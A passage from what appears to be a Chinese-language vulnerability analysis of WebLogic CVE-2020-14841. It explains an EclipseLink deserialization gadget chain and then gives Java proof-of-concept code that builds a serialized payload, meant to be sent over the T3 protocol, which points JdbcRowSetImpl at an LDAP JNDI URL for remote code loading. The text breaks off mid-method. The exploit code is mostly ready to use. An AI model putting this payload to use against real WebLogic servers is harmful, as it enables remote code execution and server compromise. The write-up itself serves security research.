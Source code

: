 调用MethodAttributeAccessor.initializeAttributes

```java
//org.eclipse.persistence.internal.descriptors.MethodAttributeAccessor

protected void initializeAttributes(Class theJavaClass, Class[] getParameterTypes) throws DescriptorException {
    //通过此处判断需要让attributeName的值不为空
    if (this.getAttributeName() == null) {
        throw DescriptorException.attributeNameNotSpecified();
    } else {
        DescriptorException descriptorException;
        try {
        	//将getMethodName的值(方法)赋给getMethod，见下图
            this.setGetMethod(Helper.getDeclaredMethod(theJavaClass, this.getGetMethodName(), getParameterTypes));
            //isWriteOnly需设置为true，因为getSetMethodName返回结果为空，找不到JdbcRowSetImpl中存在名字为空的方法会直接报错退出
            if (!this.isWriteOnly()) {
                this.setSetMethod(Helper.getDeclaredMethod(theJavaClass, this.getSetMethodName(), this.getSetMethodParameterTypes()));
            }
```

![avatar](../../../../images/java/weblogic/CVE-2020-14841/1.png)

MethodAttributeAccessor有initializeAttributes方法，能够反射调用其他类的方法，且getMethod可控，这就是选择MethodAttributeAccessor的原因。

#### 利用链

![avatar](../../../../images/java/weblogic/CVE-2020-14841/4.png)

#### payload

生成的payload.ser通过T3协议发送

```java
public class CVE_2020_14841 {
    public static void main(String[] args) throws Exception {

        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        jdbcRowSet.setDataSourceName("ldap://127.0.0.1:1389/vtyblg");

        MethodAttributeAccessor maa = new MethodAttributeAccessor();
        maa.setGetMethodName("getDatabaseMetaData");
        maa.setAttributeName("cve_2020_14841");
        maa.setIsWriteOnly(true);

        LockVersionExtractor lockverion = new LockVersionExtractor(maa, "UnicodeSec");

        final ExtractorComparator comparator = new ExtractorComparator(lockverion);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        //队列里传入两个jdbcRowSetImpl
        Object[] q = new Object[]{jdbcRowSet, jdbcRowSet};
        Reflections.setFieldValue(queue, "queue", q);
        Reflections.setFieldValue(queue, "size", 2);

        serialize(queue);
        deserialize();
    }

    public static void serialize(Object obj) {
        try {
            ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("payload.ser"));
            os.writeObject(obj);
            os.close();
```